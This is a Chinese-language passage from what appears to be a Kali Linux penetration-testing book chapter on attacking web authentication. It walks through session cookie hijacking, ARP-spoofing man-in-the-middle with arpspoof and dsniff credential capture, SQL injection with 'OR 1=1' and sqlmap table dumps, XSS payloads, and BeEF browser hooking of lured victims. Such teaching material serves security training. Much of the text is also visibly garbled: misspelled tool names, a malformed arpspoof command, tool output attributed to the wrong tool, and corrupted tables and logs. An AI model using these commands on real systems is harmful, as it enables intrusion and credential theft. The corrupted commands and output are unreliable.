下面的截图显示了哈希的输出：


HASH: b6ddc0a05b3143888a9886f5da373a

- 可能的哈希：
- MDS
- 缓存凭据 - MD4(($pass)).(strtolower($username))

- 可能的哈希：
- Radmin V2.X
- NTL
- MD4
- MD2
- MD5 (HMAC)
- MD4 (HMAC)
- MD2 (HMAC)

### dictstat

dictstat 是一个用于密码破解结果分析或常规字典列表的 Python 脚本工具。dictstat 将分析结果并为已经破解的密码组合提供暴力破解掩码（masks）。这可能会为破解该组更多哈希提供线索。在针对具有密码策略的公司时这非常有帮助。下面的截图显示了 dictstat 界面：


## 客户端攻击

要运行 dictstat，输入 `dictstat [options] passwords.txt`。下面的截图显示了使用 dictstat 的示例：

```
root@kali:# dictstat /root/Desktop/A0.md.hash
(?) Psycho is not available, Install Psico for faster parsing.\32-bit systems
[-] 正在 passwords: /root/Desktop/A0.md.hash
[-] 正在 100% (102/102) passwords
NOTE: 以下统计数据相对于分析的密码数量，
总密码数量

[-] 行数统计...
32: 100% (102)
[-] 掩码统计...
othermask: 100% (102)
[-] 字符集统计...
loweralphanum: 100% (102) you you become, the more you are to learn
[-] 进阶掩码统计...
root@kali:~#
```


# 攻击身份认证

许多政府机构利用个人身份验证（PIV）或通用访问卡（CAC）配合密码，以满足用户“所拥有”和“已知”的内容。远程工作人员通常使用数字令牌，每隔几秒生成一个新数字并配合 PIN 码来代表他们“所拥有”和“已知”。高安全性物理位置可能需要指纹扫描配合 PIN 码才能访问。网络访问控制技术可以验证用户如何登录笔记本电脑，并在提供网络资源之前寻找隐藏证书以验证系统和用户的身份。在渗透测试的侦察阶段，识别目标所使用的身份认证方法至关重要，这样你就可以制定策略来绕过该信任。

本章的重点是用户和设备如何向 Web 应用程序身份认证，目标是破坏信任。我们将从攻击身份认证会话的管理开始，这是客户端和服务器之间建立信任的方式。接下来，我们将通过通过 Cookie 管理攻击数据在主机系统上的存储方式，来关注客户端。从这里开始，我们将学习使用中间人攻击技术隐藏在客户端和服务器之间。最后的话题将识别并利用 Web 应用程序通过 SQL 注入和跨站脚本（XSS）攻击接受身份认证时的漏洞。

### 攻击会话管理

身份认证和会话管理了处理用户身份认证和管理活动会话的所有方面。对于 Web 应用程序而言，会话是用户在网站上花费的时间。最佳实践是根据人员和设备如何进行身份认证，对授权会话（即你被允许访问的内容）进行管理，并控制在活动会话期间资源的可用性及其持续时间。这使得身份认证成为管理授权会话的关键方面。

渗透测试的目标是识别允许以高级权限访问会话并无限期访问 Web 应用程序的账户。这就是为什么创建了会话管理安全功能，如会话超时和 SSL 证书。无论何种，Kali 中可用的工具都可以识别会话管理方式中的缺陷，例如在 Web 应用程序注销后捕获活动会话，并将该会话用于给他人（也称为会话固定攻击）。

会话管理攻击可以通过应用程序中的漏洞或用户访问和认证这些应用程序的方式发生。攻击者实现此目的的常见方法是通过对 Web 服务器进行跨站脚本或 SQL 注入攻击，这将在本章稍后介绍。攻击者还可以利用 Web 浏览器中的会话 Cookie 或 Web 页面的漏洞来实现类似的结果。让我们先看看一种用于欺骗用户泄露敏感信息，或通过修改链接和 iFrame 使其受到攻击的技术。

### 点击劫持（Clickjacking）

点击劫持是一种攻击者欺骗用户点击并非他们认为正在点击的内容的技术。点击劫持可用于暴露机密（如登录凭据），并允许攻击者控制受害者的计算机。点击劫持通常通过嵌入的、在受害者不知情的情况下执行的代码或脚本暴露 Web 浏览器安全问题或漏洞。执行点击劫持的一个示例是指向受信任网站的链接与实际网站不同。普通用户在点击之前不会验证链接，也不会注意到与常见的点击劫持尝试相关的变化，这是一种非常有效的攻击形式。

在接下来的示例中，用户将看到“在 Facebook.com 上访问”，但当他们点击文本时，他们实际上被重定向到了 www.badfacebook.com。

```
<a href="http://www.badfacebook.com">Visit Us on Facebook.com</a>
```

# 攻击身份认证

点击劫持比更改链接更恶意、更复杂。使用点击劫持的攻击者通常会将 IFrame 嵌入网页中。IFrame 的内容包含来自目标网站的数据，并通常放置在合法链接之上，使其难以检测。

为了构建你的点击劫持攻击，你可以使用 Paul Stone 开发的点击劫持工具，下载地址为为：http://www.contextis.com/research/tools/clickjacking-tool。

一旦你下载了该工具，就可以使用它从另一个网站获取代码，例如投票按钮或点赞按钮。点击劫持工具兼容 Firefox 3.6。Paul Stone 的工具将不支持较新版本的 Firefox；但是，你可以在 Kali 军库中运行多个版本的 Firefox，包括 Firefox 3.6 或更早版本。

> 网站代码经常变化，因此请确保调整你的攻击以适应镜像受信任网站的更新。

### 劫持 Web 会话 Cookie

Cookie 是从网站发送并在用户访问该网站时存储在用户浏览器中的一小段数据。网站可以使用 Cookie 验证用户是否返回了该站点，并获取有关用户之前操作的详细信息。这可能包括访问了哪些页面、如何登录、以及按了哪些按钮。每当你登录网站（如 Facebook、Gmail 或 Wordpress）时，你的浏览器都会为你分配一个 Cookie。

Cookie 可以包含对用户长时间的追踪历史，包括多年前在网站上的行为。Cookie 还可以存储用户之前填写过的密码和表单值，例如他们的家庭地址或信用卡号。这对于零售等企业为消费者提供简化体验非常有用。每当主机进行身份认证时，Web 服务器都会发放会话令牌。会话令牌被用在不同连接之间进行识别。会话劫持发生在攻击者捕获会话令牌并将其注入到自己的浏览器中，以访问受害者的已认证会话时。本质上，这是用受害者的授权 Cookie 替换攻击者的 Cookie 的行为。

会话劫持攻击存在一些局限性：

- 如果目标使用 https:// 进行浏览并启用了端到端加密，窃取 Cookie 是没用的。尽管采用速度缓慢；但大多数安全的网站都提供了这种防止会话劫持攻击的防御。

> 你可以使用 SSLStrip 作为一种方法，防止目标在启动会话劫持或其他攻击之前建立 https 连接。有关 SSLStrip 的更多信息，请参见第 3 章服务器端攻击。

- 大多数 Cookie 在目标注销会话时过期。这也会导致攻击者注销会话。这对于利用永不过期的 Cookie 的移动应用来说是一个问题，这意味着如果捕获了有效的会话令牌，攻击者可以获得永久访问权限。

许多网站不支持并行登录，这使得被盗的 Cookie 失效。

### Web 会话工具

下一节将介绍用于渗透测试 Web 会话的工具。某些工具在 Kali 1.0 中不可用；但可以从网上获得。

### Firefox 方法

执行会话劫持的手动方法是窃取受害者的身份认证 Cookie。实现此方法的一种是在受攻击的 Web 应用程序服务器上注入脚本，以便 Cookie 在受害者不知情的情况下被捕获。从那里，攻击者可以收集身份认证 Cookie，并使用 Cookie 注入工具将攻击者的 Cookie 替换为授权的被盗 Cookie。窃取 Cookie 的其他方法是数据包嗅探、网络流量分析和破解主机。窃取 Cookie 将在本书稍后介绍。

Firefox 浏览器提供了许多可以将 Cookie 注入到攻击者浏览器中的插件。示例包括 GreaseMonkey、Cookie Manager 和 Firespeed。我们建议浏览 Firefox 插件市场寻找各种 Cookie 管理方案以满足渗透需求。

### Firesleep – Firefox 插件

Firesleep 是一种用于审核 Web 会话的经典渗透测试工具。Firesleep 是 Firefox Web 浏览器的扩展；但某些版本在较新的 Firefox 版本中运行不稳定。Firesleep 作为一个数据包嗅探器，拦截在网络上传输的网站的未加密 Cookie。

> Firefox 的 Firesleep 插件在 Windows 和 MAC 上官方支持，使其在 Linux 上操作非常不便。可以使用自定义工作使 Firesleep 在 Linux 环境中运行；但建议使用更现代的工具。


## 第 5 章


**查看 Cookie 信息 (View Cookie Information)**，你将看到存储的 Cookie。你可以点击**编辑 Cookie (Edit Cookie)** 打开 Cookie 编辑器，并用受害者窃取的 Cookie 替换当前 Cookie。


### Greasemonkey – Firefox 插件


[ 181 ]

## 攻击身份验证

Greasemonkey 是一个 Firefox 插件，允许用户安装脚本，这些脚本可以在页面加载前后动态更改页面内容。Greasemonkey 可用于自定义网页外观、网页功能、调试、合并其他页的数据以及其他目的。为了让 Cookie Injector 等其他工具正常工作，需要安装 Greasemonkey。

### Cookie Injector – Firefox 插件

Cookie Injector 是一个用户脚本，简化了操作浏览器 Cookie 的过程。从 Wireshark 等工具将 Cookie 导入到浏览器有许多手动步骤。Cookie Injector 允许用户复制转储文件中的 Cookie 部分，并在当前查看的网页上自动创建转储文件中的 Cookie。

> 你必须安装了 Greasemonkey 才能使用 Cookie Injector 脚本。

要安装 Cookie Injector，请在 Google 上搜索 Cookie Injector 以获取该脚本的下载链接。当你选择下载 Cookie Injector 时，Greasemonkey 会弹出窗口，提示你批准安装。


安装 Cookie Injector 脚本后，按 Alt+C 显示 Cookie 对话框。将复制的 Wireshark 字符串粘贴到输入框中并点击 OK 将 Cookie 注入到当前页面。参阅 Wireshark 部分，了解如何使用复制 (Copy)”、“字节 (Bytes)”以及在 Wireshark 中选择仅可打印文本 (Printable Text Only)来为 Cookie Injector 复制 Cookie。接两张截图显示了按下 Alt+C、粘贴 Wireshark Cookie 转储并点击 OK，看到显示捕获的 Cookie 已写入浏览器的弹出窗口。


### Cookies Manager – Firefox 插件

Cookies Manager 是一个用于查看、编辑和创建新 Cookie 的工具。Cookies Manager+ 显示 Cookie 的详细信息，并同时编辑多个 Cookie。Cookies Manager+ 还可以备份和恢复 Cookie。你可以从 Firefox 插件商店下载 Cookies Manager+。

安装后，可以通过工具 (Tools) 下的 Cookies Manager+ 访问它。


Cookies Manager+ 将显示 Firefox 捕获的所有 Cookie。你可以向下滚动或搜索特定的 Cookie 以查看和/或编辑它们。在我的示例中，我正在寻找与 www.theblogger.com 相关的任何 Cookie。


## 攻击身份验证

Cookies Manager+ 让编辑现有 Cookie 变得简单。这对于执行各种类型的攻击（如会话劫持和 SQL 注入）非常有用。


### Cookie Cadger


Cookie Cadger 是用于审计网络会话的渗透测试工具。Cookie Cadger 可以包含详细的 HTTP 请求捕和重放不安全的 HTTP GET 请求、请求项、用户代理、引用页和基础授权。Cookie Cadger 可以为 Wi-Fi 和有线网络提供实时分析；以及加载数据包获 (PCAP) 文件。Cookie Cadger 还包含会话检测，以判断用户是否登录了 Wordpress 和 Facebook 等网页。Cookie Cadger 被人认为是“加强版的 Firesheep”。

> Cookie Cadger 不随 Kali 1.0 版本提供。

可以从 www.cookiecadger.com 下载 Cookie Cadger。下载将是一个 JAR 文件。双击文件打开 Cookie Cadger。会弹出一个警告，询问你是否要启用会话检测。点击“是”，主仪表板将弹出。接两张截图显示了带有介绍警告消息的 Cookie Cadger 1.0 JAR 文件以及主 Cookie Cadger 仪表板。

[ 184 ]


开始，选择合适的界面并点击“开始捕获 (Start Capture)”。如果可用，Cookie Cadger 提供了接入多个接口的能力。

## 攻击身份验证

Cookie Cadger 可以枚举可用网络上发现的所有设备。例如，下一张截图显示了一个 Linux [图像占位符]。

| 请求 (Requests) | 域名 (Domains) |
| :--- | :--- |
| 00:0c:29:4f:84:73 | www.theblogger.com |


Wireshark 捕获了线路上看到的所有流量。可以通过在过滤器栏中输入特定项目或通过表格（如协议或分段）调整数据来过滤流量。


| 序号 | 时间 | 源 | 目的地 | 协议 | 信息 |
|---|---|---|---|---|---|
| 285 | 00:05:18.281223 | 192.168.1.137 | 172.16.1.1 | TCP | 60 [Syn] [Acq=149 Ack-Zia Wi |
| 286 | 00:05:18.285985 | 192.168.1.137 | 172.16.1.1 | TLSv1 | 91 Application Data |
| 287 | 00:05:18.289122 | 192.168.1.137 | 172.16.1.1 | TLSv1 | 80 [Encrypted Alert] [Acq=214 WinO |
| 288 | 00:05:18.290000 | 192.168.1.137 | 172.16.1.1 | TCP | 54 [PSH, Ack] [RST] Window Win |
| 289 | 00:05:18.290100 | 192.168.1.137 | 172.16.1.1 | TLSv1 | 949 Application Data |
| 290 | 00:05:18.291000 | 192.168.1.137 | 172.16.1.1 | TCP | 54313 [Ack] [Acq=383 Ack-A351 |
| 291 | 00:05:18.292000 | 192.168.1.137 | 172.16.1.1 | TLSv1 | 1166 Application Data |
| 292 | 00:05:18.293000 | 192.168.1.137 | 172.16.1.1 | TCP | 783 [Ack] [Acq=365 Ack-A351 |
| 293 | 00:05:18.294000 | 192.168.1.137 | 172.16.1.1 | TLSv1 | 91 Application Data |
| 294 | 00:05:18.295000 | 192.168.1.137 | 172.16.1.1 | TCP | 54104 [Ack] [Acq=969 Ack-2342 |

- 帧 1: 线上 54 字节（62 字节），接口 eth0 捕获到 54 字节（62 字节）
- 以太网 II, 源: 00:00:5e:8a:48:73, 目的: 00:00:5e:8a:48:73, 类型: 0x0800
- 网协议版本4, 源: 172.16.1.1, 目的: 199.147.78.172, ID: 1, 长度: 0
- 传输控制协议, 源端口: 57737 (57737), 目的端口: 80; 序列: 1, 确认: 1, 长度: 712

Wireshark 会记录本地流量的详情，例如用于 cookie 的参数。例如，如果 Gmail 被加密；但是你可以关闭它并查看 http cookie 中包含的 GS 参数来识别 Google cookie。当登录 WordPress 博客时：


| 序号 | 时间 | 源 | 目的地 | 协议 | 信息 |
|---|---|---|---|---|---|
| 2133 | 20:06:59.635000 | 31 | 30 | HTTP | 824 GET /login.php?redirect_to=main.com?ser=v |
| 2147 | 20:06:59.6417600 | 31 | 30 | HTTP | 1048 GET /admin.php?id=3 |
| 2154 | 20:06:59.6542800 | 31 | 30 | HTTP | 1024 GET /wp-admin.php |
| 2175 | 20:06:59.6752800 | 31 | 30 | HTTP | 1051 GET /wp-content/colors/fresh.css |
| 2179 | 20:06:59.6802800 | 31 | 30 | HTTP | 1024 GET /wp-includes/js.js |
| 2185 | 20:06:59.6872600 | 31 | 30 | HTTP | 1052 GET /wp-includes/js/jquery.js?version=v |
| 2189 | 20:06:59.693800 | 31 | 30 | HTTP | 1024 GET /wp-content/plugins/1-flash-gallery |
| 2193 | 20:06:59.701300 | 31 | 30 | HTTP | 1024 GET /wp-content/plugins/slider |
| 2209 | 20:06:59.721650 | 31 | 30 | HTTP | 1058 GET /wp-content/plugins/gd-rating |
| 2222 | 20:06:59.736180 | 31 | 30 | HTTP | 1045 GET /wp-includes/js/thickbox.js |

- 帧 2127: 线上 766 字节（628 字节），接口 eth0 捕获到 766 字节（628 字节）
- 以太网 II, 源: 00:00:5e:8a:48:73, 目的: 00:00:5e:8a:48:73, 类型: 0x0800
- 网协议版本4, 源: 172.16.1.1, 目的: 199.147.78.172, ID: 1, 长度: 712
- 传输控制协议, 源端口: 57737 (57737), 目的端口: 80; 序列: 1, 确认: 1, 长度: 712

## 攻击身份

一旦捕获到不安全的 cookie，你必须使用另一个工具将其注入浏览器以完成会话。选择受害者，点击该行并选择“Bytes Only”。现在你可以将其粘贴到 Firefox 插件 Cookie Injector 中完成会话攻击。

### Bettercap

Bettercap 是一种用于 HTTP 会话劫持（也称为 Sidejacking）窃取 cookie 的实用。它监听网络，捕获看到的 cookie 并将其导入浏览器环境，以便攻击者可以重放会话。有很多支持 Wireshark 捕获并简化数据的有用工具。例如可以从 www.bettercap.com 免费下载 Bettercap。

## 第 5 章


### Bettercap 2.0 Sidejacking

要劫持会话请遵循以下步骤：
- 第一，点击适配器菜单并开始嗅探。
- 第二，等待几秒钟确保收到数据包。
- 第三，直到出现目标，点击“clone”。
- 第五，从浏览器中清除 cookie 以确保与克隆目标无冲突。
- 提示：偶尔刷新此页面查看更新，并确保清除浏览器中的所有 cookie。

状态
代理：未知
适配器：无
数据包：0
目标：0

尚未设置目标。流量必须通过 Bettercap 才能工作。你可以通过点击适配器链接来选择使用哪种适配器。例如，我将嗅探 eth0。要进行监控，输入适配器名称并点击提交按钮。此适配器必须支持“混杂”模式。你可能需要在命令行上配置适配器。

Bettercap 将你重定向到 Sidejacking 活动页面。你会注意到你正在接收数据包。Bettercap 需要一个嗅探器来获取流量。你可以访问 Sniffing/Spoofing 并选择 Bettercap 来使用它。会弹出一个带有选项的终端窗口。使用 `bettercap -i INTERFACE` 选择要用 Bettercap 嗅探的接口。Bettercap 会告诉你是否捕获了流量并在挂起状态下提示你。如你在 Bettercap 中看到的文本所示：

```
root@local ferret eth0
FERRET 3.8.1 - 2007-2012 (c) Error Security
-- build = Mar 27 2013 13:51:59 (32-bit)
libcapso: libcapso: cannot open shared object file: No such file or directory
Searching elsewhere for libcap
Found libcap
  libcap version 1.3.0
  1 eth0 (No description available)
  2 nflog (Linux netfilter log (NFLOG) interface)
  any (在所有接口上捕获的伪设备)
  4 lo (No description available)
SNIFFING: eth0
LINKTYPE: 1 Ethernet
```


 中间人攻击

中间人攻击是一种主动监听的形式，攻击者与受害者建立连接并在受害者之间中继消息，使他们认为自己正在互相交谈。这种攻击有许多形式，例如使用 Hak5 Pineapple 路由器伪装成受信任的无线接入点，而实际上充当中间人。

## 攻击身份

一旦 Bettercap 运行，返回 Bettercap，你应该开始看到数据包。点击任何目标以查看捕获的 cookie。


点击任何 cookie 以访问捕获的会话。在我的示例中，我中继访问了 www.thesecurityblogger.com。


# 攻击身份验证

终端 1:

```
arpspoof -t 172.16.76.128 172.16.76.2 // 告诉受害者 2 你是默认网关
```

终端 2:

```
arpspoof -t 172.16.76.2 172.16.76.2 // 告诉受害者 1 你是默认网关
```


如果你正确输入了命令，你应该看到流量正在通过攻击系统进行重放。流量不会在受害者之间直接传输，此时受害者不会看到流量流出网络。为了完成攻击，你需要启用 IP 转发（IP forward），以便流量继续从默认网关流到受害者并反之，而攻击者则在监控受害者与默认网关之间的流量。

打开第三终端窗口并输入：

```
echo 1>/proc/sys/net/ipv4/ip_forward
```


此时，流量应该在受害者和默认网关之间流动并经过攻击者系统。下面的截图显示了未启用 IP 转发时 ping 失败。

接下来，启动 `dnsiff` 来捕获流量。可以在 Sniffing/Spoofing | Network Sniffers（嗅探/欺骗 | 网络嗅探器）下找到 `dnsiff`。打开的终端窗口将显示 `dnsiff` 的用法命令，如下所示：

```
Version: 2.4
Usage: dnsiff [-cdmn] [-i interface | -p pcapfile [-s snaplen]
      [-f services] [-t trigger(,...)] [-r|-w savefile]
[expression]
root@kali:-#
```

要启动 `dnsiff`，输入 `dnsiff` 并使用 `-i` 接口名称选择要嗅探的接口。例如，我输入 `dnsiff` 来嗅探 eth0 上的所有流量，如下所示：

```
root@kali:~# dnsiff -i eth0
dnsiff: listening on eth0
```

`dnsiff` 会捕获任何登录信息。例如，如果受害者通过 FTP 登录系统，一旦会话关闭，你就会看到登录尝试和凭据，dnsiff 需要看到整个会话。

```
5/25/13 02:15:18 tcp 172.16.76.128.44837 -> 192.168.76.2 (ftp)
USER admin
PASS password123
```

### Ettercap

Ettercap 是一个用于中间人攻击的免费开源综合套件。

Ettercap 可用于计算机网络协议分析和安全审计，特点是嗅探活动连接、内容过滤，并支持对多种协议进行主动和被动解析。Ettercap 的工作原理是将攻击者的网络接口设置为混杂模式，并对受害者机器进行 ARP 毒。

要启动 Ettercap，导航到 Sniffing/Spoofing | Network Sniffers 并选择 Ettercap graphical。


第一步是选择你计划嗅探的接口。导航到 Sniff 标签页，选择嗅探类型（统一嗅探或桥接嗅探）以及你计划嗅探的接口。


# 第 5 章

现在，Ettercap 将显示更多菜单选项，如下：


让我们扫描网络中的可用主机。导航到 Hosts 并选择 Scan for hosts。Ettercap 将快速扫描整个 C 类网并列出所有识别出的主机。通常路由器是找到的第一个主机。截图显示了扫描期间发现的四个设备。


在本示例中，我们发现了四个设备。我们可以假设 .1 是路由器，目标将是受害者机器 .128。让我们将路由器选为 Target 1，将受害者 .128 为 Target 2。这将我们的系统置于受害者和路由器之间，进行经典的中间人攻击。选择每个目标并点击相应的复选框。你可以通过导航到 Targets 并选择 Current Targets 来验证目标。

- 3 个主机已添加到主机列表...
- 正在对随机的 255 个主机进行扫描...
- 正在扫描整个网络中的 255 个主机...
- 4 个主机已添加到主机列表...
- 主机 172.16.76.1 已添加到 TARGET1
- 主机 172.16.76.128 已添加到 TARGET2

（注：原文后续大量重复段落已去重）


# 第 5 章

在本示例中，我们将尝试对 DrChaos.com 网站进行 SQL 注入。让我们在 Kali 服务器控制台上，使用 Firefox 访问 www.DrChaos.com 并尝试登录该网站。首先，我们将尝试使用用户名 `administrator` 和密码 `12345` 登录。你应该发现登录失败了。

现在，导航到 Firefox 中的 View（视图）菜单并选择 HackBack 菜单。点击 Load URL 按钮并点击 Enable Post data 按钮。你将看到我们正在登录的 URL 以及刚刚输入的用户名和密码。

## 攻击身份验证

我们现在将在 `administrator` 用户名后添加一个单引号。一旦点击 **Execute**（执行）按钮，我们就收到了 SQL 注入。这可能意味着服务器容易受到 SQL 注入攻击，因为服务器对 SQL 错误做出响应。

我们将通过在行尾添加 `OR 1=1` 语句来实现 SQL 注入。

一旦执行该代码，我们就以管理员的身份登录了 www.drchaos.com。

我们已经修复了 www.DrChaos.com，使其不再容易受到此类攻击。然而，你可以看到 SQL 注入对于攻击来说非常有价值，因为它们为 Web 渗透测试提供了获取系统完全访问权限的方法。

SQL 注入的成功取决于攻击者对 SQL 命令的了解。如果你需要温习 SQL 技能，我们建议查看 W3 School 的 SQL 部分：http://www.w3schools.com/sql/sql_intro.asp。

### sqlmap

sqlmap 自动化了检测和利用 SQL 注入漏洞以及接管数据库服务器的过程。sqlmap 包含一个检测引擎，以及广泛的渗透测试功能，从数据库指纹到访问底层文件系统，以及通过带外连接在操作系统上执行命令。

功能包括支持常见的数据库管理系统、支持许多 SQL 注入技术、枚举用户、密码哈希值等许多项，sqlmap 还支持使用 Metploit 的 Meterpreter getsystem 命令进行数据库进程的用户特权提升。

sqlmap 是一个可以用于利用数据库服务器的工具，并内置在 Kali 中。要使用 sqlmap，你需要将工具指向 Web 服务器上 SQL 脚本的 URL。这些脚本可以被识别，因为它们的 URL 中通常包含 `php`。

你可以在 Vulnerability Analysis（漏洞分析） | Database Assessment（数据库评估） | sqlmap 下找到 sqlmap。将打开一个终端窗口，显示 sqlmap 的帮助页面。

使用 sqlmap 的基本语法：

```
sqlmap -u URL --function
```

一个常用的函数是 `dbs`。`dbs` 关键字会让 sqlmap 获取数据库。`sqlmap -u http://www.drchaos.com/article.php?id=5 --dbs`

从我们的结果中可以看到我们发现了几个数据库。在本示例中，我们将专注于 `test` 数据库。

## 攻击身份验证

一旦你发现了一个有漏洞的 Web 服务器，就可以使用 `-D` 命令和数据库名称来选择数据库。

```
sqlmap -u http://www.drchaos.com/article.php?id=5 -D test --tables
```

`tables` 关键字用于检索我们服务器上 `test` 数据库中的所有表。我们看到成功检索了两个表：`admin` 和 `content`。

一旦我们发布以下命令，sqlmap 将显示所有表：

```
sqlmap -u http://www.drchaos.com/article.php?id=5 -D test --tables
```

可以使用以下命令选择特定的列：

```
sqlmap -u http://www.drchaos.com/article.php?id=5 -T tablesname --columns
```

如果表任何相关信息，可以使用以下命令进行检索：

```
sqlmap -u http://www.drchaos.com/article.php?id=5 -T tablesname -U test --dump
```
`-U test -dump`

这将创建一个名为 `test` 的文件，并将数据库中的所有原始信息导出到文件中。在许多情况下，这可能包含密码和其他敏感信息。

### 跨站脚本 (XSS)

跨站脚本 (XSS) 是 Web 应用程序的一种漏洞。XSS 允许攻击者向网站注入脚本。这些脚本可以用于操纵 Web 服务器或连接到 Web 服务器的客户端。

跨站脚本占了绝大多数流行的基于 Web 的攻击。很多时候，客户要求我检查数据被盗的受损 Web 服务器。

检查跨站脚本的一种方法是使用以下内容：

```
<script>alert('XSS')</script>
```

跨站脚本 (XSS) 是 Web 应用程序的一种漏洞。XSS 允许攻击者向网站注入脚本。这些脚本可以用于操纵 Web 服务器或连接到 Web 服务器的客户端。


# 第5章

通常情况下，为 Kali Linux 分配公网 IP 地址是非常糟糕的做法。执行这一步骤可能意味着打开防火墙并将 Kali Linux 暴露在远程攻击者面前。

当你登录 Gruyere 时，点击屏幕右上角的“Sign up”（注册）按钮创建一个用户名，如下截图所示：


对于这次练习，我们创建了两个独立的账户。让我们用第一个账户登录。在示例中，我们的第一个账户名为 TheDude。接下来，我们进入 snippet（代码段）部分并创建一个新的 snippet。我们将如截图所示输入一个 XSS 脚本：


我们知道 Gruyere 内置了 XSS 漏洞，因此我们正在使用脚本。在现实世界中，我们可以在目标网站的任何字段中使用相同的脚本，以测试其是否容易受到 XSS 攻击。例如，如果我们知道 Facebook 的中间名字段容易受到 XSS 攻击，攻击者需要创建一个配置文件，并将此脚本作为他们的中间名。

# 攻击身份验证

Facebook 无法通过这种攻击被利用。这只是一个假设性的例子。

我们输入了以下代码：

```
<script>document.write("</"></script>
```

> 虽然在输入命令时文字可能会换行，但它需要是一条单行命令。

这只是许多可以用于利用漏洞系统的脚本之一。本书的重点是利用 Kali Linux 中提供的工具；然而，最好的渗透测试员会结合使用 Kali Linux 等行业可用工具以及自定义工具（如 XSS 脚本）来攻破目标。我们建议针对你的 Gruyere 示例目标研究相关脚本，以掌握构建和执行自定义脚本攻击的能力。

## 其他工具

以下是一些遵循本章主题且 Kali Linux 中可用的其他工具：

### urlsnarf

urlsnarf 是一个工具，它可以从 HTTP 流量中嗅探所有请求的 URL，并公共日志格式（CLF，几乎所有 Web 服务器都使用）输出，适用于使用你喜爱的 Web日志分析工具（analog、wwstat 等）进行离线后处理。

要访问 urlsnarf，导航到 Sniffing/Spoofing | Network Sniffers 并选择 urlsnarf。一个终端（Terminal）将会弹出并显示如下截图所示的选项：

```
root@kali:~ ~
File Edit View Search Terminal Help
Version: 2.4
Usage: urlsnarf [-n] [-i interface | -p pcapfile] [-v] pattern [expression]
root@kali:~# 
```

要使用 urlsnarf，输入 `urlsnarf -i` 以及你想要监控的接口。urlsnarf 将显示其正在监听。以下截图显示 urlsnarf 列出了 eth0：

```
Usage: urlsnarf [-n] [-i interface -p pcapfile] [-v] pattern [expression]
root@kali:~# urlsnarf -i eth0
urlsnarf: listening on eth0 [tcp port 80 or port 8080 or port 3128]
```

urlsnarf 将显示你所寻找的任何 URL 请求的转储。例如，显示的用户访问了 www.thesecurityblogger.com。URL 请求将显示在 urlsnarf 中供以后使用。

```
172.16.76.128 - [13/May/2013:10:12:38 -0400] GET /download.windowsupdate-com/v9/1/windowsupdate/supdate/W03SU3/06/other/wus3setup.cab7136080333
HTTP/1.1 " - "Windows-Update"
172.16.76.128 - [13/May/2013:10:12:50 -0400] GET://www.thesecurityblog-like Gecko Chrome/27.0.1453.94 Safari/537.36 (Windows NT 5.1) AppleWebKit/537.36 (KHTMLHT-172.16.76.128 - [13/May/2013:10:12:52 -0400] GET://www.thesecurityblog-wp-content/plugins/gd-star-rating/gss.php?id=55b82541e650d5b5f2=20b60c5521622e024392162222440/gss.php?id=33lcypical23lcypical23lipnark23lsyscapertialictizing23tsigstrating/gt23listthesecurityforoffter&ver=9.22 HTTP/1.1 "http://www.thesecurityblogger.com/Mozilla/5.0
(Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.94 Safari/537.36
```


## Web 攻击

浏览器漏洞可以被恶意软件利用，以操纵浏览器的预期行为。这些漏洞是一种流行的攻击向量，因为大多数主机都利用了某种形式的互联网浏览器软件。让我们来看一个开发用于利用浏览器漏洞的流行工具。

有很多渗透测试应用应该包含在你的黑客军库中，其中我们最喜欢的工具之一是浏览器利用框架（Browser Exploitation Framework，简称 BeEF）。BeEF 是一个基于浏览器的漏洞利用包，它可以“钩住”（hooks）一个或多个浏览器作为发起攻击的滩头堡。用户可以通过访问自定义的 URL 被挂钩，并继续看到典型的流量，而攻击者则可以访问用户的会话。BeEF 通过针对 Internet Explorer 和 Firefox 等常用浏览器中发现的漏洞，绕过安全设备和基于主机的反病毒软件程序。

BeEF 未包含在 Kali Linux 的 1.0 版本中，但可以在 beefproject.com 找到。考虑到 BeEF 在渗透测试社区的流行程度，我们预计 BeEF 将被添加到未来的 Kali Linux 版本中。

要安装 BeEF，请在 Kali Linux 上以 root 用户身份打开终端并执行以下命令：

- apt-get update
- apt-get install beef-xss

```
root@kali:~# apt-get update
```

当运行 apt-get update 命令时，你可能会被要求安装、更新或覆盖某些旧文件。在大多数情况下，你只需要接受默认提示。当更新过程完成后，你可以使用 apt-get 安装 BeEF：

```
root@kali:~# apt-get install beef-xss
```

一旦过程完成，你已经在 Kali Linux 上安装了 BeEF。

要启动 BeEF，导航到 `/usr/share/beef-xss` 目录并输入 `./beef` 来启动 BeEF 服务器，管理 BeEF 和帮助受害者的 URL 将显示在终端窗口中：

```
root@kali:/usr/share/beef-xss
File View Search Help
root@kali:/usr/share/beef-xss # beef
/usr/share/beef-xss# ./beef
[1:32:02] * Bind socket [impawaloral] listening on [0.0.0.0:2000]
[1:32:02] * Browser Exploitation Framework (BeEF) 0.4.5-alpha
[1:32:02] * Site: http://beefproject.com
[1:32:02] * Blog: http://blog.beefproject.com
[1:32:02] * Wiki: https://github.com/beefproject/wiki
[1:32:02] * Project Creator: made byicorn (WadeAllison)
[1:32:02] * BeEF loading: Wait a few seconds...
[1:32:02] * 10 extensions enabled
[1:32:02] * 171 modules enabled
[1:32:02] * 2 network interfaces detected: 127.0.0.1
[1:32:02] running on network interface: 172.16.66.144
[1:32:02] _ UI URL: http://127.0.0.1:3000/ui/panel
[1:32:02] _ UI URL: http://172.16.66.144:3000/ui/panel
[1:32:02] _ Hook URL: http://172.16.66.144:3000/hook
[1:32:02] * RESTful API key: af2c6da1b8e7440ad5a4bd8008a348d8c44
[1:32:02] * HTTP Proxy: http://172.16.66.144:8080/proxy
[1:32:02] * BeEF server started (press ctrl+c to stop)
```

要访问管理服务器，请打开浏览器并转到 `/ui/panel` URL。在骗受害者被 BeEF 挂钩时，将受害者重定向到列为 `hook.js` 的 BeEF 服务器挂钩 URL。你需要制定一种策略让受害者访问你的挂钩 URL，例如钓鱼攻击或社会工程攻击，这些攻击会将用户重定向到 BeEF。

在示例中，我们将访问：http://172.16.86.144:3000/ui/panel。默认用户名和密码均为 beef。

当受害者点击或被重定向到“hook.js”网站时，BeEF 服务器上的攻击者会将新系统添加到目标列表中，并在挂钩的受害者在线时显示它们。离线受害者无论在重新使用互联网之前是否访问过挂钩链接，当他们连接互联网时都会受到攻击。下一张截图显示了 BeEF 的主仪表板以及针对挂钩受害者的启动选项：

